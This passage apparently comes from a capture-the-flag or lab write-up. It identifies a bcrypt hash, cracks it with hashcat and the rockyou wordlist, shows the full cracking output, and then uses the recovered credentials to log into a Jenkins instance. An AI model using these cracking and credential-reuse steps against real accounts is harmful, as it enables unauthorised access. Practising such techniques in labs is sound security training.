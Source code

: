 We know the hash start with `$2a$` at that should match the hash-mode `3200` (blowfish). After putting the hash in a file we successfully cracked it using Hashcat with the rockyou word list.

```shell
labadmin@labmachine:~/builder$ echo '[OMITTED]' > jennifer.hash
labadmin@labmachine:~/builder$ hashcat -a 0 -m 3200 jennifer.hash /usr/share/wordlists/
dirb/        john.lst     metasploit/  nmap.lst     rockyou.txt  seclists/
labadmin@labmachine:~/builder$ hashcat -a 0 -m 3200 jennifer.hash /usr/share/wordlists/rockyou.txt
[OMITTED]
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[OMITTED]:[OMITTED]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQ.../L4l1a
Time.Started.....: Tue Apr 16 00:34:56 2024 (0 secs)
Time.Estimated...: Tue Apr 16 00:34:56 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       56 H/s (8.11ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 16/14344385 (0.00%)
Rejected.........: 0/16 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> jessica

Started: Tue Apr 16 00:34:52 2024
Stopped: Tue Apr 16 00:34:58 2024
```

Using jennifer credentials we now login to the Jenkins instance.

![builder5](./assets/builder5.png)